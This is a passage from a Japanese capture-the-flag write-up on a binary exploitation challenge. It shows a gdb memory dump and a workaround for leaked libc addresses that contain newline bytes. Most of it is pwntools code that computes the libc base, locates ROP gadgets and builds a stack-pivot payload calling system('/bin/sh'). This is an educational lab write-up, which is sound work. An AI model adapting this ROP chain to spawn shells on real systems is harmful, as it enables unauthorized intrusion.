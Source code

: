 ```bash
gdb-peda$ x/8gx $rsi
0x7fffffffdae0: 0x6262626262626262      0x6262626262626262
0x7fffffffdaf0: 0x6262626262626262      0x6262626262626262
0x7fffffffdb00: 0x6262626262626262      0x6262626262626262
0x7fffffffdb10: 0x0000555555558860      0x000055555555518b
```
<br>
# **3回目のループ**
<br>

前回のループ同様に取得したバイト列を64ビットのアドレスとして解釈するのですが、アドレスに改行を含む場合は取得が少し大変そう。。<br>
```
b'Message: bbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbb`\x88UUUU\n\xd0\xbf\xe1\xf7\xff\x7f\n> '
```
改行で分割して、要素数がいつもと違う場合はゴニョゴニョしました。捨てパターンでもいいと思うし、あんまり参考ならないと思います；；<br>
また、アドレスに`\0`を含む場合はリーク不可だと思われるので完璧なものはないかもしれないです。<br>

```python
parts = res.split(b'\n')
#アドレスに改行`\x0a`が含まれる場合の緩和策
if len(parts) > 3:
    if len(parts[-2]) < 6:
        parts[-2] = parts[-3] + b'\n' + parts[-2]
libc_IO_funlockfile_byte = parts[-2]          
libc_IO_funlockfile_addr = int.from_bytes(libc_IO_funlockfile_byte, 'little')
libc_base_addr = libc_IO_funlockfile_addr - libc.symbols['_IO_funlockfile']
hex(libc_base_addr): 0x7ffff7dca000
```
3回目のループは、`read()`にROPchainを書いてあげることでbss領域に書き込まれるので、<br>
前の問題のpivot4bと同様にROPchainを作ります。<br><br>
one_gadgetという便利なのものがあること知らなかったので、通常のchainになっています(´・ω・｀)<br>
ROPに必要な関数等のアドレスを調べました。

```python
binsh_addr       = libc_base_addr + next(libc.search(b"/bin/sh"))
system_addr      = libc_base_addr + libc.symbols['system']
leave_ret_addr   = libc_base_addr + rop.find_gadget(['leave', 'ret']).address
ret_addr         = libc_base_addr + rop.find_gadget(['ret']).address
pop_rdi_ret_addr = libc_base_addr + rop.find_gadget(['pop rdi', 'ret']).address
```

3回目のペイロードはこんなかんじになりました。

```python
#rop
payload = b'c' * 8
payload += p64(ret_addr)
payload += p64(pop_rdi_ret_addr)
payload += p64(binsh_addr)
payload += p64(system_addr)

#pivot
payload += p64(0)                                #余り8バイト
payload += p64(program_base + 0x4830)
payload += p64(leave_ret_addr)
```
